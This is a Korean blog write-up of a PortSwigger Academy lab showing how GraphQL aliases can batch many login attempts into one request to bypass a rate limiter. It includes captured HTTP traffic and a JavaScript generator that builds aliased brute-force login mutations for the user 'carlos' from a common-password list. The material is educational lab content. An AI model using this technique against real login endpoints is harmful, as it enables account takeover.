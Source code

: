```yaml
---
layout: post
title: "Burp Academy-GraphQL API 관련 취약점: Bypassing GraphQL brute force protections"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, GraphQL]
toc: true
last_modified_at: 2023-11-16 09:50:00 +0900
---
```



# 개요
- GraphQL 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/graphql/lab-graphql-brute-force-protection-bypass
- 취약점 설명페이지: https://portswigger.net/web-security/graphql
- 난이도: PRACTITIONER (보통)

# 문제 개요
- 이 랩에 있는 로그인 기능에는 GraphQL API로 만들어져 있다. 
- 로그인 기능에는 시도횟수 제한이 있다. 
- 랩을 풀려면 시도회수 제한을 우회해서 브루트포스 공격을 성공시켜 carlos 유저로 로그인하면 된다. 
- 후보 패스워드 리스트는 주어져있다.

```
The user login mechanism for this lab is powered by a GraphQL API. The API endpoint has a rate limiter that returns an error if it receives too many requests from the same origin in a short space of time.

To solve the lab, brute force the login mechanism to sign in as carlos. Use the list of authentication lab passwords as your password source.

We recommend that you install the InQL extension before attempting this lab. InQL makes it easier to modify GraphQL queries in Repeater.

For more information on using InQL, see Working with GraphQL in Burp Suite.
```

# 배경지식
## GraphQL aliases
- alias (에일리어스)라는 단어는 영단어로 가명을 의미한다. 
- GraphQL 오브젝트는 같은 이름으로 여러개의 프로퍼티를 포함할 수 없다. 예를들면 다음과 같은 쿼리는 `product`타입을 두번 리턴하기 때문에 GraphQL에세는 무효(invalid)한 쿼리이다. 

```gql
#Invalid query

query getProductDetails {
    getProduct(id: 1) {
        id
        name
    }
    getProduct(id: 2) {
        id
        name
    }
}
```

- alias (에일리어스)는 명시적으로 다른 이름을 지정함으로써 이 제한을 우회할 수 있다. 
- alias를 이용해서 동일한 타입의 여러 인스턴스를 하나의 요청으로 리턴할 수 있다. 이는 API 요청 회수를 효과적으로 줄일 수 있다. 
- 예를 들면 다음과 같다. product1, product2와 같은 식으로 다른 이름을 명시적으로 지정해주면 적법한 쿼리가 된다. 

```gql
#Valid query using aliases

query getProductDetails {
    product1: getProduct(id: "1") {
        id
        name
    }
    product2: getProduct(id: "2") {
        id
        name
    }
}

```

위 요청의 응답은 다음과 같이 된다. 

```

#Response to query

{
    "data": {
        "product1": {
            "id": 1,
            "name": "Juice Extractor"
            },
        "product2": {
            "id": 2,
            "name": "Fruit Overlays"
        }
    }
}
```

## aliases 를 사용해서 회수 제한을 우회하기(Bypassing rate limiting using aliases)
- alias 를 활용한 테크닉의 포인트는 **하나의 요청에 여러개의 쿼리를 포함할 수 있다**는 것이다. 
- 그렇다면 로그인 시도횟수 제한이 있는 엔드포인트에 대해서 한번에 여러개의 로그인시도 쿼리를 포함시키는 것으로 횟수 제한을 우회할 수 있을 것이다! 

# 풀이 
1. 로그인하는 부분을 살펴본다. 다음 요청과 응답이 관측된다. 

```http
POST /graphql/v1 HTTP/2
Host: 0aba00d80363ef3883d3d3500081003d.web-security-academy.net
Cookie: session=iu5T79019xvsssJwleg3IiCoxyQnAHGQ; session=RtpQCdJ3GSIvoagSmpv7o8qNskB2kf11
Content-Length: 189
Sec-Ch-Ua: "Google Chrome";v="119", "Chromium";v="119", "Not?A_Brand";v="24"
Accept: application/json
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: https://0aba00d80363ef3883d3d3500081003d.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0aba00d80363ef3883d3d3500081003d.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

{"variables": {"input": {"password": "peter", "username": "wiener"}}, "query": "mutation login($input: LoginInput!) {\n    login(input: $input) {\n        token\n        success\n    }\n}"}
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Set-Cookie: session=qZrJU5LS5XhOr2sitroPmaK7aaQwszbf; Secure; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 113

{
  "data": {
    "login": {
      "token": "qZrJU5LS5XhOr2sitroPmaK7aaQwszbf",
      "success": true
    }
  }
}
```

2. 힌트를 통해서 브루트포스를 시도하는 GraphQL 쿼리를 생성해주는 자바스크립트 코드를 확인할 수 있다. 이를 웹 브라우저 콘솔에서 실행하면 GraphQL 쿼리가 클립보드에 카피된다. 

```js
copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>`
bruteforce$index:login(input:{password: "$password", username: "carlos"}) {
        token
        success
    }
`.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
```

3. 로그인 요청을 Repeater로 보낸다. 그리고 쿼리를 조금 수정한다. 

다음 쿼리에서 `login($input: LoginInput!)` 부분을 `login`으로 바꾼다. 

```
mutation login($input: LoginInput!) {
    login(input: $input) {
        token
        success
    }
}
```

4. 그리고 쿼리 부분을 카피된 쿼리로 교체하고 송신해본다. 그러면 브루트포스가 성공하고 다음과 같은 응답이 되돌아온다.

![브루트포스 공격](/images/burp-academy-graphql-4-1.png)

5. `success` 부분의 값이 true인 것을 찾아본다. 그러면 여러 쿼리 실행결과중에 하나만 true인 것을 알 수 있다. 이 쿼리의 password값을 사용해서 carlos 유저로 로그인하면 문제가 풀린다. 

![풀이 성공](/images/burp-academy-graphql-4-success.png)